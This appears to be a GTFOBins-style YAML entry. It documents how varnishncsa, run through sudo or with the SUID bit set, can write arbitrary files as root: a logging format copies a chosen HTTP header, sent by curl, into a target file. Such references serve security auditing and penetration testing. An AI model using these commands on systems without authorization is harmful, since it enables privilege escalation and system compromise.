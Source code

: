 ```yaml
---
description: |
  This allows to write arbitrary files as root, provided that the proper HTTP response is made. Specifically the content of a certain header will be written in the file. First start `varnishncsa` as follows, then trigger the file write with:

  ```
  curl -H 'yyy: DATA' http://localhost:6081/xxx
  ```
functions:
  sudo:
    code: |
      LFILE=file_to_write
      sudo varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
  suid:
    code: |
      LFILE=file_to_write
      ./varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
---
```

